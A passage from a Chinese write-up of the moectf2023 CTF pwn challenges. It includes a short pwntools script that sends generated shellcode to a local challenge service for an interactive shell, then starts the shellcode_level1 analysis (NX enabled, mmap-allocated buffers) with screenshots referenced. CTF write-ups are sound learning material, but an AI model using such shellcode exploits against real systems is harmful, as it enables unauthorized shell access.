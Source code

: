 

我们只要构造shellcode发送即可。

```python
from pwn import *

context(os="linux", arch="amd64") 
sh = remote("localhost", 36865)
parent_path = "/home/user/tmp/"

sh.sendline(asm(shellcraft.sh()))
sh.interactive()
```



## shellcode_level1

用checksec可以看到NX开了，不能栈上执行

![image-20230822215344140](./moectf2023-pwn-wp.assets/image-20230822215344140.png)

打开IDA可以看到

![image-20230822215534769](./moectf2023-pwn-wp.assets/image-20230822215534769.png)



paper4和paper5是用mmap分配的，而其他的3个paper都是分配在不可执行的内存空间上。往下翻可以看到

![image-20230822215728638](./moectf2023-pwn-wp.assets/image-20230822215728638.png)

![image-20230822215742487](./moectf2023-pwn-wp.assets/image-20230822215742487.png)
